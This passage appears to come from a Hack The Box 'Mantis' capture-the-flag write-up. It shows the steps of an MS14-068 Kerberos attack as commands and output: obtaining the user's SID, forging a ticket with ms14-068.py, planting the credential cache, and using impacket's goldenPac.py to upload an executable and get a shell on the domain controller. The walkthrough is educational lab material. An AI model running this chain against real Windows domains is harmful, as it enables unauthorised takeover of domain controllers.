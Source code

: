 ```
root@kali:~/htb/mantis/impacket-master/impacket-master/impacket/examples# kinit james
Password for james@HTB.LOCAL: 
root@kali:~/htb/mantis/impacket-master/impacket-master/impacket/examples# klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: james@HTB.LOCAL

Valid starting       Expires              Service principal
02/09/2018 15:29:07  02/10/2018 01:29:07  krbtgt/HTB.LOCAL@HTB.LOCAL
renew until 02/10/2018 15:28:37
```

Next we will need to get james' SID.

```
root@kali:~/htb/mantis/impacket-master/impacket-master/impacket/examples# rpcclient -U james mantis
Enter WORKGROUP\james's password: 
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
```

Now we can run our MS14-068 python exploit script.

```
root@kali:~/htb/mantis/pykek-master# python ms14-068.py -u james@HTB.LOCAL -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis
Password: 
  [+] Building AS-REQ for mantis... Done!
  [+] Sending AS-REQ to mantis... Done!
  [+] Receiving AS-REP from mantis... Done!
  [+] Parsing AS-REP from mantis... Done!
  [+] Building TGS-REQ for mantis... Done!
  [+] Sending TGS-REQ to mantis... Done!
  [+] Receiving TGS-REP from mantis... Done!
  [+] Parsing TGS-REP from mantis... Done!
  [+] Creating ccache file 'TGT_james@HTB.LOCAL.ccache'... Done!

```

By default, any user's ticket-granting-ticket (TGT) used on the client side is read from the default Kerberos credential cache, which is located in `/tmp/krb5cc_uid`. So now that we have our cache file we need to copy it to the proper location.

```
root@kali:~/htb/mantis/pykek-master# cp TGT_james@HTB.LOCAL.ccache /tmp/krb5cc_0
```

With everything in place we can use the `goldenPAC.py` tool from impacket to get us our shell.

```
root@kali:~/htb/mantis/impacket-master/impacket-master/examples# ./goldenPac.py HTB.LOCAL/james@mantis
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file cugfXzCt.exe
[*] Opening SVCManager on mantis.....
[*] Creating service QcYY on mantis.....
[*] Starting service QcYY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

```